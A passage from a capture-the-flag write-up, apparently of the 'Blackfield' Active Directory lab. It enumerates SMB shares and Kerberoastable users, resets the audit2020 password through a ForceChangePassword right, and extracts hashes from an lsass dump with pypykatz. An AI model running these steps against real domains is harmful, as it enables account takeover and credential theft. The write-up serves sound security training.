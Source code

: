 We can use these credentials to login using `evil-winrm`.

Checking shares:

```bash
sudo nxc smb $IP -u support -p '#00^BlackKnight' --shares
```

![image.png](image%2011.png)

Checking Kerberoastable Users:

```bash
GetUserSPNs.py -dc-ip $IP blackfield.local/support
```

## Lateral Movement to audit 2020

I performed BloodHound enumeration using bloodhound-python and analysing our user first-degree privileges I found that we have `ForceChangePassword`  privilege over `audit2020` user.

![image.png](image%2012.png)

Running the following command I changed the password of `audit2020` user:

```bash
net rpc password "audit2020" "newP@ssword2022" -U "blackfield.local"/"support"%"#00^BlackKnight" -S $IP
```

![image.png](image%2013.png)

**Enumerating shares:**

```bash
sudo nxc smb $IP -u audit2020 -p "newP@ssword2022" --shares
```

![image.png](image%2014.png)

## Lateral Movement to svc_backup

In `forensic` share inside of `memory_analysis` I found `lsass` memory dump:

![image.png](image%2015.png)

There we can found hashes of logged in users. I am gonna dump information inside of it using `pypykatz`:

```bash
pypykatz lsa minidump lsass.DMP
```

Dumping it I found the hash of `svc_backup` user:

![image.png](image%2016.png)
